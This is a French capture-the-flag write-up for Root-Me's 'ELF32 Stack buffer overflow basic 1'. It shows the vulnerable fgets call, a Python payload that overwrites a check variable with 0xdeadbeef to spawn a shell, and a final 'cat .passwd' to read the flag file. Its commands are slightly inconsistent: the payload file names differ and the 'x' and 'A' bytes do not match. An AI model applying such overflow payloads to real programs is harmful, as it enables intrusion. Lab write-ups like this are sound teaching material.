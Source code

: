 # ELF32 - Stack buffer overflow basic 1

La page du [challenge](https://www.root-me.org/fr/Challenges/App-Systeme/ELF32-Stack-buffer-overflow-basic-1)

## Analyse

La faille se trouve à ce niveau.
```c
char buf[40];
fgets(buf,45,stdin);
```

On remarque, en mettant de plus en plus de lettres dans notre argument, qu'au bout du 40ème, on commence à écrire dans la variable check.
```
$ python -c 'print "x"*40' > /tmp/args.txt
$ cat /tmp/args.txt | ./ch13
[buf]: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[check] 0x403000a
You are on the right way !
```

On fait ensuite en sorte d'écrire `0xdeadbeef` dans la variable check. Pour cela on fait bien attention dans l'ordre dans lequel on entre les octets, qui est inversé. De plus, pour garder la main sur le stdin (et pouvoir écrire dans le nouveau shell) on ajoute _-_.
```
$ python -c 'print "x"*40 + "\xef\xbe\xad\xde" ' > /tmp/args.txt
$ cat /tmp/payload.txt - | ./ch13
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭÞ
[check] 0xdeadbeef
Yeah dude ! You win !

ls -a
.  ..  .passwd  ch13  ch13.c

cat .passwd
```
